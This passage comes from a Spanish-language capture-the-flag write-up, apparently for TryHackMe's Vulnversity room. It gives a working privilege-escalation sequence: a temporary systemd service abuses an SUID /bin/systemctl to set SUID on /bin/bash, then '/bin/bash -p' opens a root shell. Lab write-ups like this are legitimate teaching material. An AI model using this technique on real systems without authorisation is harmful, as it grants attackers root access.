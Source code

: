 
Como podemos ver, podemos abusar de este binario fácilmente, además de que nos permite ejecutar cualquier código malicioso que queramos

Para conseguir la última flag haremos lo siguiente:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

Si nos percatamos, lo único que modificamos de la información que nos provee `GTFOBins`, fue el código a ejecutar, en este caso, estamos asignando un permiso `SUID` a la `/bin/bash`, para posteriormente, a través del parámetro `-p`, ejecutar el binario `/bin/bash` manteniendo permisos y privilegios del usuario al que le pertenece el binario, en este caso al usuario root. Otro aspecto que se modificó, fue utilizar el binario `/bin/systemctl` desde su ruta absoluta, mas no de su ruta relativa.

Una vez hemos abusado del binario `/bin/systemctl`, haremos lo siguiente:

```
/bin/bash -p
```

Una vez siendo root, podemos pasar a buscar su respectiva flag, esto lo podemos hacer así:

```bash
find / -name root.txt
```
 
![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-10-25-Vulnversity-TryHackMe/20.png)
